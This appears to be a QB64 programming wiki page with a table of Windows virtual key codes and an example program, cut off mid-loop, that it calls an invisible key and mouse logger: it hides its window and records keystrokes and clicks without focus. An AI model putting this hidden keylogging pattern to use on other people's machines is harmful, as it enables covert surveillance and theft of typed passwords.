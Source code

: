 '                                  **Virtual KeyState Codes**
'
**' Esc  F1  F2  F3  F4  F5  F6  F7  F8  F9  F10  F11 F12   Sys ScL Pause**
' 27   112 113 114 115 116 117 118 119 120 121  122 123   44  145 19
**' `~  1!  2@  3#  4$  5%  6^  7&  8* 9(  0) -_  =+  BkS   Ins Hme PUp   NumL  /   *    -**
' 192 49  50  51  52  53  54  55  56  57 48 189 187  8    45  36  33    144  111  106 109
**' Tab Q   W   E   R   T   Y   U   I   O   P  [{  ]}  \|   Del End PDn   7Hme 8/?  9PU  +**
'  9  81  87  69  82  84  89  85  73  79  80 219 221 120  46  35  34    103  104  105 107
**' CapL  A   S   D   F   G   H   J   K   L   ;:  '" Enter                4/?-  5   6/-? E**
'  20   65  83  68  70  71  72  74  75  76 186 222  13                  100  101  102  **n**
**' Shift  Z   X   C   V   B   N   M   ,<  .>  /?    Shift       ?        1End 2/?  3PD  t**
' 16/160 90  88  67  86  66  78  77 188  190 191   16/161      38       97   98   99   **e**
**' Ctrl   Win   Alt       Spacebar      Alt Win Menu Ctrl   ?-  ?   -?   0Ins     .Del  r**
' 17/162 91  18/164        32        18/165 92  93 17/163  37  40  39   96        110  13
'
'     Num Lock On values shown. Off values same as functions and arrows, 5 = code 12.
'
'  **Mouse click returns: LB = 1, RB = 2, MB = 4, etc. [http://msdn.microsoft.com/en-us/library/windows/desktop/dd375731(v=vs.85).aspx Special keys] may also work.**

'''

<sub>NOTE: The above commented table can be copied and pasted directly into the QB64 IDE</sub>


>  **Invisible key and mouse logger that does not require program focus. Press ESCape key to view the logged activity. **

'''vb

$CONSOLE
_DEST _CONSOLE ' for demonstration only
PRINT "The actual program is hiding. Type some stuff!"
PRINT
PRINT "Press ESC to quit logging keys and see results.":
_DEST 0
'#### #### #### #### #### ##  End Demo Console Code #### #### #### #### #### ## 



DO : LOOP UNTIL _SCREENEXISTS 'to prevent unexpected freezing
_SCREENHIDE 'makes the program invisible to the user. Escape key displays log!

DECLARE LIBRARY  'function is already used by QB64 so "User32" is not required
  FUNCTION GetAsyncKeyState% (BYVAL vkey AS LONG)
END DECLARE

DIM theitem$(1000)

DO: _LIMIT 100
  FOR thekey = &H30 TO &H5A
    IF GetAsyncKeyState(thekey) THEN
      theitem$(a) = theitem$(a) + CHR$(thekey)
      DO
      LOOP UNTIL GetAsyncKeyState(thekey) = 0
    END IF
  NEXT
  IF GetAsyncKeyState(1) THEN
    a = a + 1
    theitem$(a) = "{MOUSE LEFT}"
    DO
    LOOP UNTIL GetAsyncKeyState(1) = 0
  END IF
  IF GetAsyncKeyState(2) THEN
    a = a + 1
    theitem$(a) = "{MOUSE RIGHT}"
    DO
    LOOP UNTIL GetAsyncKeyState(2) = 0
  END IF
